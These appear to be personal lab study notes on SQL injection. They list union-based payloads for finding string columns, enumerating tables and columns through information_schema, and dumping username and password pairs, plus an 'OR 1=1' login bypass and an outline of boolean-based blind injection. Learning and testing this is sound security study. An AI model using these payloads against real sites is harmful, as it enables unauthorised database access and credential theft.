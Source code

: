 ##### Get datatype of columns in the current table

we want a string type for easy output of data from the database

to find one we can use the same method:
`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`

##### Get database, tables... information

then try to get information about the database:
`0 union select 1,2,database()`   get database name
`?category=qwe' union select null, db_name() -- -`

<u>list tables</u> in the database `sqli_one`
`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
`' union select null, table_name from information_schema.tables -- -` (not setting database name)
`' union select null, table_name from information_schema.tables where table_schema='public' -- -` Postgre
observe the `table_schema='public'` - Test this on other
also test `sql select * from information_schema.tables where table_schema not in ('information_schema', 'pg_catalog')`

<u>list columns</u> in the table `staff_users`
`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`

<u>list the contents</u> of the table `staff_users`
`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`
`' union select username, password from users --` (table is already outputted here so don't need to mess with concating strings)
`bad_data' union select null, username||' - '||password from users --` **Oracle**

group_concat()


### Blind SQLi

#### Authentication example

`select * from users where username='%username%' and password='%password%' LIMIT 1;`

`' OR 1=1;--`

#### Boolean based

a create new account form usually check if the username already exists - we can use this to get other information from the database

imagine the sql being:
`select * from users where username = '%username%' LIMIT 1;`
and the check in the background testing if the query failed or succeeded

then we should use this test for true (data returned from the sql statement) or false = no data, an error?, any error?
